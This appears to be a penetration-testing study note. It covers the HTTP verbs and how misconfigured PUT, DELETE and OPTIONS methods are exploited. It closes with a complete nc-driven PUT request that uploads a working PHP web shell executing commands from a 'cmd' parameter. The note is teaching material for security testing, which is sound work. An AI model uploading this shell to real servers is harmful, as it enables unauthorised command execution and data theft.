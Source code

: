 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1).png>)

![Logging in becomes impossible for every user](<../../../../.gitbook/assets/image (1) (1) (1).png>)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```

